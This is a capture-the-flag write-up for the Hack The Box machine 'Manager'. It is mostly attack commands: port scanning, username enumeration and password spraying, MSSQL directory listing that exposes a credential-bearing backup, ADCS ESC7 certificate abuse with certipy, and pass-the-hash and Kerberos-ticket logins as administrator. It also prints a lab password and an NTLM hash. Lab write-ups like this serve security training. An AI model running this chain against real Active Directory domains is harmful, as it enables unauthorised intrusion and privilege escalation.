# [Manager](https://app.hackthebox.com/machines/manager)

```bash
nmap -p- --min-rate 5000 10.10.11.236 -Pn
```




After detection of open ports, let's do greater scan for these ports.

```bash
nmap -A -sC -sV -p53,80,88,135,139,389,445,464,593,636,1433,3268,3269,5985,9389 10.10.11.236 -Pn
```




From nmap scan result, let's add `manager.htb` and `dc01.manager.htb` domain names into `/etc/hosts` file for resolving purposes.


Let's enumerate `SMB` shares via `smbmap` command for `anonymous` user.

```bash
smbmap -H 10.10.11.236 -u 'anonymous'
```




I have read access to `IPC$` share, that's why I can run `lookupsid.py` script of `Impacket` module to get possible usernames.
```bash
python3 /usr/share/doc/python3-impacket/examples/lookupsid.py anonymous@manager.htb -no-pass
```




Possible usernames are located here.

```bash
administrator
guest
krbtgt
dc01$
zhong
cheng
ryan
raven
jinwoo
chinhae
operator
```


Let's check usernames and their passwords via `crackmapexec`.

```bash
crackmapexec smb manager.htb -u users -p users --continue-on-success --no-brute
```




Let's try to connect into `MSSQL` via this credentials. For checking this, I will use `crackmapexec`.

```bash
crackmapexec mssql manager.htb -u operator -p operator
```




Let's connect into `MSSQL` via `mssqlclient.py` script of `Impacket` module.

```bash
python3 /usr/share/doc/python3-impacket/examples/mssqlclient.py -windows-auth manager.htb/operator:operator@manager.htb
```




Let's use `xp_dirtree` command to enumerate files and directories.




Let's download backup `.zip` file via `wget` command.
```bash
wget http://manager.htb/website-backup-27-07-23-old.zip
```



I find `.old-conf.xml` file which contains sensitive credentials.




raven: R4v3nBe5tD3veloP3r!123


Let's use this credentials to login into machine via `evil-winrm` command.
```bash
evil-winrm -i manager.htb -u raven -p 'R4v3nBe5tD3veloP3r!123'
```

user.txt




For `Privilege Escalation`, let's enumerate `ADCS` (Active Directory Certificate Services).

First of all, I will use `crackmapexec ldap` to identify `ADCS` for domain controller.

```bash
crackmapexec ldap manager.htb -u raven -p 'R4v3nBe5tD3veloP3r!123' -M adcs
```




Let's use `certipy find` command to find `vulnerable` certificate template.
```bash
certipy find -dc-ip 10.10.11.236 -ns 10.10.11.236 -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123' -vulnerable -stdout
```




Let's abuse `ESC7` vulnerability. For this, I look at this [blog](https://github.com/ly4k/Certipy?tab=readme-ov-file#esc7)


```bash
certipy ca -ca manager-DC01-CA -add-officer raven -username raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123'
```




Let's start attack.

```bash
certipy req -ca manager-DC01-CA -target dc01.manager.htb -template SubCA -upn administrator@manager.htb -username raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123'
```




As because, we need to specify `issue-request` id.

```bash
certipy ca -ca manager-DC01-CA -issue-request 13 -username raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123'
```




Now, we can get `administrator.pfx` file.
```bash
certipy req -ca manager-DC01-CA -target dc01.manager.htb -retrieve 13 -username raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123'
```




Let's get hash of `administrator` via `certipy auth`.
```bash
certipy auth -pfx administrator.pfx -dc-ip manager.htb
```




**Reminder!** Don't forget `ntpdate` command to solve `Clock-skew` problems.


Let's authenticate into machine via `Pass-The-Hash` attack by using administrator's `NTLM` hash.

```bash
evil-winrm -i manager.htb -u administrator -H ae5064c2f62317332c88629e025924ef
```


root.txt




**Note:** Also, we need to pay attention `.ccache` file which is generated automatically while we make `certipy auth` cmdlet.

We can join into machine via this `.ccache` file (TGT) by using `wmiexec.py` script of `Impacket` module.

```bash
KRB5CCNAME=administrator.ccache klist
KRB5CCNAME=administrator.ccache python3 /usr/share/doc/python3-impacket/examples/wmiexec.py -k -no-pass administrator@dc01.manager.htb
```


root.txt

